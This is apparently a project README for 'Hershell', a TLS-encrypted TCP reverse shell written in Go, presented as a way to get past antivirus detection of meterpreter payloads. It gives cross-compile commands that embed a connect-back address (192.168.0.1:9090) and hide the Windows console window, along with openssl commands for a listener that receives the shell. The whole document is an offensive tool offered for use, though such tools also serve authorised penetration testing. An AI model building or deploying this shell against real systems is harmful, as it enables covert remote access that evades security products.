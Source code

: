 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications.

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.
The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How

Since it's written in Go, you can cross compile the source for the desired architecture.

For windows:

```bash
$ GOOS=windows GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090 -H=windowsgui" -o reverse.exe hershell.go
```

For Linux:
```bash
$ GOOS=linux GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090" -o reverse.exe hershell.go
```

Just use the GOOS and GOARCH variables to define the target.

On the server side, you can use the openssl integrated TLS server:

```bash
# Certificate and private key generation
$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
# Start the server
$ openssl s_server -cert /tmp/cert.pem -key /tmp/key.pem -accept 9090
```

## TODO

- Certificate pinning
